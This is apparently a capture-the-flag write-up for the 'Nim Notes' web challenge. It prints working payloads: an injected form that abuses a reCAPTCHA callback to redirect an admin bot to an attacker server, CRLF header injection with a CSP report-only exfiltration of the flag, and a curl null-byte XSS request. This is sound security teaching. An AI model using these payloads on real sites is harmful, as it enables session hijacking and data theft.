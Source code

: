 # Nim Notes

* Category: Web
* Score: 500/500
* Solves: 1/854

## Description

I made this note taking web app in Nim as a part of learning it. If you have some cool notes about Nim please share it with me!

## Overview

You have a simple note taking website, which allows you to use markdown to create some notes. The webiste backend is written in Nim, with a small framework called [jester](https://github.com/dom96/jester). You can share you notes with admin (bot), and your target is to steal the flag in admin's notes.

## Solution

The bot only visits `http://web/?user=xxx`, so you might want to direct the bot to your own website first. Your note content are first parsed by marked then filtered by DOMPurify, so you most probably couldn't have a direct XSS (unless you have a DOMPurify 0day lol).

The trick is to notice that recaptcha v2 are used on the website too, and [its documentation](https://developers.google.com/recaptcha/docs/display) listed some ways to interact with it through HTML markup. Obviously, the most interesting things are `data-callback` and `data-error-callback`, they should be specified to be the name of a global function.

Is there anything interesting things can be used as a callback? Of course, there is! In `/js/app.js`, there's a simple function `logout`:

```javascript
function logout() {
	document.getElementById('logout-form').submit()
}
```

It simply submit the `<form>` with id `logout-form`, but the form in `templates/index.html` are located at the very end of HTML, which is after the notes container. If you inject a `<form>` with `logout-form` at container section, it will submit the injected one rather than the original logout one. So you can just provide your website's url to `action` of that form, and it will direct the bot to your site when callback are called.

```html
<form action="YOUR_SERVER" id="logout-form">
<button type=submit class=g-recaptcha data-sitekey=invalid data-error-callback=logout data-action=submit>peko</button>
</form>
```

> The source of this idea comes from [this tweet](https://twitter.com/oreha_senpai/status/1431947638878838786), BTW

After directing the bot to your website, there are one intended solution and one unintended solution (much easier and less interesting) as far as I know.

The intended solution is to use the fact that `setCookie` is vulnerable to CRLF Injection. Since `sign` function simply concat your message and hash together, your payload is directly passed into `setCookie` almost unmodified if you could success at login/register.

You might think it is easy to XSS after CRLF Injection, but in fact, it is not. The injection point are at `Set-Cookie` header, which is after the CSP header. And it is easy to found that you can't really disable CSP even if you could inject headers in modern Chromium. So you still need to find a way to bypass CSP:

```csp
default-src 'self'; script-src 'self' https://www.google.com/recaptcha/ https://www.gstatic.com/recaptcha/; frame-src https://www.google.com/recaptcha/ https://www.gstatic.com/recaptcha/;
```

The CSP prevents you from using inline `<script>` tag to XSS, but you can trying to load script with current origin. If this CSRF request are `GET`, you can try to construct a Javascript/HTML polyglot and force the browser to cache the response. Then make a `<script>` tag's `src` to point to itself might work. But it is a `POST` in this challenge, so this won't work.

Another option is trying to use the fact HTTP keep-alive are all in a single TCP connection, since Chromium only opens 6 parallel connections at the same time by default, it is possible to make them reuse same connection for HTML and the script. While this is possible in theory, but Chromium will simply disconnect immediately when it sees more content then it is expecting, so it is important to make it align to packet boundary. This is so complicated that I couldn't make it work in this challenge.

> If you want to know more about this, see **PlaidCTF 2021 - Carmen Sandiego** and **Circle City Con CTF 2021 - Sticky Notes**

So it is impossible to XSS this way? I don't know, but you don't really need XSS to exfiltrate the flag. The trick is to abuse the [Content-Security-Policy-Report-Only](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy-Report-Only) header, which allows you to specify another set of CSP rules, but it only reports the violation to a specified url without blocking it. And the reported infomation is encoded as a JSON, one of the field `script-sample` contains `The first 40 characters of the inline script, event handler, or style that caused the violation.` by MDN.

What if you can make it send the flag to your server using `script-sample`? See the `createNote` function in `/js/app.js`:

```javascript
function createNote(note) {
	const el = document.importNode(document.getElementById('note-tmpl').content, true)
	el.querySelector('.note-title').textContent = note.title
	el.querySelector('.note-author').textContent = note.author
	el.querySelector('.note-content').innerHTML = DOMPurify.sanitize(marked.parse(note.content))
	return el
}
```

It is expected that flag will be in admin's `note.content`, if `.note-content` element is a `<script>` tag then it will put the content (flag) to `script-sample` and send it to your server!

So it is clear that we can use CRLF Injection to set your own `Content-Security-Policy-Report-Only`, and the body will be a HTML with designed `#note-tmpl` template. You also need to load `/js/app.js`, `/js/marked.min.js` and `/js/purify.min.js` to make it work too. Once the bot trying to load that HTML, the violation will be triggered when it wants to set `innerHTML` to be the flag.

The exploit is [exp.py](exp.py), you need to set the `public_host` variable to be a publicly reachable url of that flask server. After starting it, create a note with following content and share it with admin (bot):

```html
<form action="http://IP_OF_THIS_SERVER/csrf" id="logout-form">
<button type=submit class=g-recaptcha data-sitekey=invalid data-error-callback=logout data-action=submit>asd</button>
</form>
```

Then the flask server should prints the flag.

## Unintended Solution

You need to direct the bot to your website first too. But the CSRF part is different here.

The trick is that when your username contains `\0` (null byte), it will cause syntax error in Nim's sqlite library. This happens because it [didn't uses sqlite's prepared statement](https://github.com/nim-lang/Nim/blob/d7370ce26962b3b82e6b9be6562f6e88ba7ff86c/lib/impure/db_sqlite.nim#L214).

And the error message are output **directly** to response by Jester, with no CSP headers.

```bash
> curl 'http://34.81.54.62:8765/login' --data $'username=<script>alert(1)</script>%00&password=peko' -v
*   Trying 34.81.54.62:8765...
* Connected to 34.81.54.62 (34.81.54.62) port 8765 (#0)
> POST /login HTTP/1.1
> Host: 34.81.54.62:8765
> User-Agent: curl/7.81.0
> Accept: */*
> Content-Length: 55
> Content-Type: application/x-www-form-urlencoded
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 502 Bad Gateway
< Server: nginx
< Date: Mon, 28 Feb 2022 03:08:23 GMT
< Content-Type: text/html;charset=utf-8
< Content-Length: 343
< Connection: keep-alive
<
<html xmlns="http://www.w3.org/1999/xhtml"><head><title>Jester route exception</title></head><body><h1>An error has occured in one of your routes.</h1><p><b>Detail: </b>db_sqlite.nim(198)       dbError<br/>
asyncfutures.nim(389)    read<br/>
asyncfutures.nim(389)    read<br/>
* Connection #0 to host 34.81.54.62 left intact
unrecognized token: "'<script>alert(1)</script>"</p></body></html>
```

So you have an easy XSS now, lol.
